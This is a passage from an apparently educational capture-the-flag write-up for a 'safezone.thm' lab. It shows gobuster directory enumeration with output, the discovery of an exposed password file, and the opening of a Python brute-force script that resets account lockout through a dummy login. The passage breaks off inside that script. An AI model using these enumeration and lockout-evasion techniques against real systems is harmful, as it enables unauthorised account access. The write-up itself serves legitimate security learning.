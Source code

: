 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519130341.png)

I tried automating this using `caido automate` functionality but it failed, it seems like the `LFI` may only work as the admin user, let's try to fuzz again to check for any other directory we could be missing, in this case, i will change use `gobuster`:

```
gobuster dir -u http://safezone.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 20 2>/dev/null
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://safezone.thm/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/~files               (Status: 301) [Size: 313] [--> http://safezone.thm/~files/]
```

We found the `/~files` directory, this must point to the same directory the admin was talking about on the note, let's go to `/~files/pass.txt` to check if its true:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519131015.png)

Let's proceed to exploitation.



# EXPLOITATION
---

We can use a python script to exploit that and get the password, the issue relies that every 3 attempts, we get a timeout which makes it hard to get the password, for that, we need to create a custom python script to help us get the password:

```python
import requests
from itertools import product

# Target URL
URL = 'http://safezone.thm/index.php'

# Headers copied from your curl for fidelity
HEADERS = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://safezone.thm',
    'Connection': 'keep-alive',
    'Referer': 'http://safezone.thm/index.php',
    'Upgrade-Insecure-Requests': '1',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache'
}

# Dummy account (resets lockout)
DUMMY_CREDS = {
```